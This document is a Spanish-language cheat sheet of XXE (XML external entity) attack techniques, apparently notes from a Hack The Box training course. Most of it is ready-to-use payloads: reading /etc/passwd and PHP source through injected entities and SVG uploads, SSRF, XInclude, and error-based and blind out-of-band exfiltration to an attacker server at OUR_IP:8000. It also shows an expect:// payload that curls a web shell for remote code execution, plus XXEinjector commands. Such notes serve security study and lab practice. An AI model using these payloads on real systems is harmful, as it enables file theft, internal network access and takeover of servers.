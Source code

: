 Siempre agregar las entidades luego de la declaración del XML!!!

### Idenificación

CUando encontramos alguna request que posea un xml, primero vemos si alguno de los datos de la misma se ve reflejado en la response.
Luego inyectamos en ese dato una nueva entidad:

    <!DOCTYPE "nombre" [
      <!ENTITY "variable" "dato de la entidad">
    ]>

Para llamar a la nueva entidad rellenamos el campo del xml con "&variable;" 
Si el formulario es vulnerable mostrará el dato de la entidad, de no serlo mostrará &variable;


#### Leer archivos del sistema:
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "file:///etc/passwd">
        ]>

#### Leer archivos mediante un svg:

#### creamos un svg con el siguiente contenido:


        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

##### Opción2:

        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

#### Obtener el código de la página php:
            <!DOCTYPE email [
          <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
        ]>



#### SSRF
podemos injectar ssrfs en el xml con el fin de alcanzar servicios internos no expuestos.

        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

#### XInclude

De a ratos nos encontramos con sitios que al hacer una request nos piden datos que luego serán parseados en el back-
end para agrergarse a un xml. ¿Cómo las distinguimos? No sabemos, simplemente hay que probar.
Para hacer una xxe, reemplazamos el parámetro que se está enviando por:

        <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

#### RCE:
##### 1)Si el módulo de php expect está instalado y permitido podríamos usar directamente: "expect://'comando'"

##### 2)Podemos generar una injección de una shell:
###### a)creamos la shell.php
###### b)Levantamos un servidor
###### c) inyectamos el siguiente código:
        <?xml version="1.0"?>
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
        ]>
        <root>
        <name></name>
        <tel></tel>
        <email>&company;</email>
        <message></message>
        </root>






### Lectura avanzada de archivos:

#### CDATA:

Nos permite engañar al backend tomando el contenido como raw:


Ejemplo no aplicable:

<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>

Desde que se prohibió el joined como medio interno, nos vemos obligado a usarlo desde afuera:

LaPorota@htb[/htb]$ 

        echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

##### Injection
        <!DOCTYPE email [
          <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
          <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
          <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
          <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
          %xxe;
        ]>
        ...
        <email>&joined;</email> <!-- reference the &joined; entity to print the file content -->



### ERROR BASED XXE:

Probamos romper el xml en la request para ver como lo resuelve el backend.

Si el error nos brinda información sobre directorios o subdirectorios con rutas podemos:

#### Crear un dtd:
        <!ENTITY % file SYSTEM "file:///etc/hosts">
        <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

y luego referenciarlo desde la request:

        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %error;
        ]>




### Blind xxe
#### Out-of-band Data Exfiltration

cramos un xml en nuestro servidor:

        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
        <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

##### luego un index.php
        <?php
        if(isset($_GET['content'])){
            error_log("\n\n" . base64_decode($_GET['content']));
        }
        ?>

##### Levantamos el servidor php:
        php -S 0.0.0.0:8000

##### Inyectamos la entidad:
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %oob;
        ]>
        <root>&content;</root>

##### Podemos automatizar el ataque con herramientas como xxeinjector:

        git clone https://github.com/enjoiz/XXEinjector.git


guardamos la request http que tenemos en burp a un archivo desde el inicio hasta la declaración del xml y agregamos xxeinject ej:

POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

        <?xml version="1.0" encoding="UTF-8"?>
        XXEINJECT

##### luego corremos la herramienta con:
        ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter



